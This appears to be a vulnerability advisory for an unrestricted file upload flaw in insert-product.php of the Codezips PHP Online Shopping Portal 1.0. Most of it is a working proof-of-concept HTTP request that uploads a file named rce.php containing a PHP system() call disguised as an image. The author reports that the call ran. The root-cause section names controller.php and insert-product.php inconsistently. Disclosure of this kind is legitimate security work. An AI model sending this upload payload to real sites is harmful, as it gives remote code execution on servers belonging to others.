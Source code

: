 # Codezips Online Shopping Portal In PHP With Source Code 1.0 insert-product.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online Shopping Portal In PHP With Source Code
## Vendor Homepage
+ https://codezips.com/php/online-shopping-portal-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ insert-product.php
## VERSION(S)
+ V1.0
## Software Link
+ https://codeload.github.com/codezips/online-shop-portal-php/zip/master
# PROBLEM TYPE
## Vulnerability Type
+ File upload
## Root Cause
+ In line 32 of the controller.php file, the input obtained through $-FILES is directly used to determine the storage location of the file without verification or cleaning. The specific code snippet is as follows:
+ ![1](https://github.com/user-attachments/assets/97f99074-311d-4a7d-9a76-8634c5697854)

## Impact
+ Attackers can exploit this vulnerability for unrestricted uploads, which may lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Remote attacks may also result in RCE
# DESCRIPTION
+ laster discovered that the file upload operation was triggered on line 80 of the 'insert-product.php' file and the uploaded file was received using the '$_FILES' variable. Due to the lack of appropriate input validation and cleaning, remote attackers can pass malicious payloads through this file upload feature, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
## Payload
## 
```
POST /insert-product.php HTTP/1.1
Host: localhost:8116
Content-Length: 5354
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8116
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysRaDOvoNY4oUx6xW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8116/insert-product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="category"

7
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="subcategory"

14
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productName"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productCompany"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productpricebd"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productprice"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productDescription"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productShippingcharge"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productAvailability"

In Stock
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage1"; filename="rce.php"
Content-Type: image/jpeg

Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show

<?php system('ipconfig'); ?>
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage2"; filename="2.jpg"
Content-Type: image/jpeg

Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show

------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage3"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="submit"


------WebKitFormBoundarysRaDOvoNY4oUx6xW--

```


+ ![2](https://github.com/user-attachments/assets/9374ede6-a6a0-47ed-85c0-efc268710748)

## I successfully executed the PHP script on the terminal
+ ![3](https://github.com/user-attachments/assets/b4a46c32-ccf6-4586-826f-55ada138b7c2)
